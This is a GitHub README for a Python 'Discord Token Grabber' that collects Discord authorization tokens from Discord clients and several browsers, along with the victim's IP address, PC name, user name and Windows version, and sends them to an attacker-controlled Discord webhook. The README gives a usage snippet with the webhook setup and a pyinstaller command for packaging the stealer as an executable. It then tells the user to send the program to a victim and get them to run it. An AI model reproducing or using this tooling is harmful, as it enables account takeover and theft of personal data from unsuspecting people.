 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3. </p>

![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green)
[![wakatime](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56.svg)](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56)

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![fancy](https://imgur.com/pHKYnQl.png "example of fancy mode")  
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
